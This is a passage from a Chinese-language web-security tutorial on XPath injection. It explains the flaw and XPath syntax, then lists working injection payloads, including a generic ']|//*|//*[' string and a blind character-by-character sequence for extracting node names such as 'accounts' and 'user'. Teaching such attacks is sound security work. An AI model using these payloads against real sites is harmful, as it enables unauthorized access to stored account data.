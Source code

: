 ### 0x06 Xpath注入

#### 漏洞原理

XPath 注入利用 XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的 XPath 查询代码，以获得高权限信息的访问权。

XPath注入类似于SQL注入，当网站使用未经正确处理的用户输入查询 XML 数据时，可能发生 XPATH 注入，由于Xpath中数据不像SQL中有权限的概念，用户可通过提交恶意XPATH代码获取到完整xml文档数据

#### 攻击方式

##### Xpath和Xquery语法

- “nodename” – 选取nodename的所有子节点
- “/nodename” – 从根节点中选择
- “//nodename” – 从当前节点选择
- “…” – 选择当前节点的父节点
- “child::node()” – 选择当前节点的所有子节点
- “@” -选择属性
- "//user[position()=2] " 选择节点位置

##### 攻击思路

```xml
通用payload，类似于'or '1'='1
']|//*|//*['

从根节点开始判断
'or count(/)=1  or '1'='2     ###根节点数量为1
'or count(/*)=1 or '1'='2   ##根节点下只有一个子节点
判断根节点下的节点长度为8：
'or string-length(name(/*[1]))=8 or '1'='2
猜解根节点下的节点名称：
'or substring(name(/*[1]), 1, 1)='a'  or '1'='2
'or substring(name(/*[1]), 2, 1)='c'  or '1'='2
..
'or substring(name(/*[1]), 8, 1)='s'  or '1'='2
猜解出该节点名称为accounts
'or count(/accounts)=1  or '1'='2   /accounts节点数量为1
'or count(/accounts/user/*)>0 or '1'='2    /accounts下有两个节点

'or string-length(name(/accounts/*[1]))=4  or '1'='2    第一个子节点长度为4
猜解accounts下的节点名称
'or substring(name(/accounts/*[1]), 1, 1)='u'  or '1'='2
...
'or substring(name(/accounts/*[1]), 4, 1)='r'  or '1'='2
accounts下子节点名称为user
'or count(/accounts/user)=2  or '1'='2   
第一个user节点的子节点长度为8：
'or string-length(name(/accounts/user[position()=1]/*[1]))=8 or '1'='2
读取user节点的下子节点
'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or '1'='2
'or substring(name(/accounts/user[position()=1]/*[1]), 2, 1)='s'  or '1'='2
...
'or substring(name(/accounts/user[position()=1]/*[1]), 8, 1)='e'  or '1'='2
12345678910111213141516171819202122232425262728293031
```
